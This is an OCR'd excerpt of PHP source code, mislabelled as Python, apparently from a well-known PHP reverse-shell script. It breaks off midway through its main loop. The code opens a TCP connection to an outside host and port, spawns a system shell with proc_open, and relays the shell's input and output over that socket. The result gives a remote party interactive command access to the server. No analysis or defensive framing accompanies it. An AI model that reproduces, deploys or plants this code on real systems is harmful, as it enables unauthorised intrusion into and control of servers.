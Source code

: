 ```python

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
```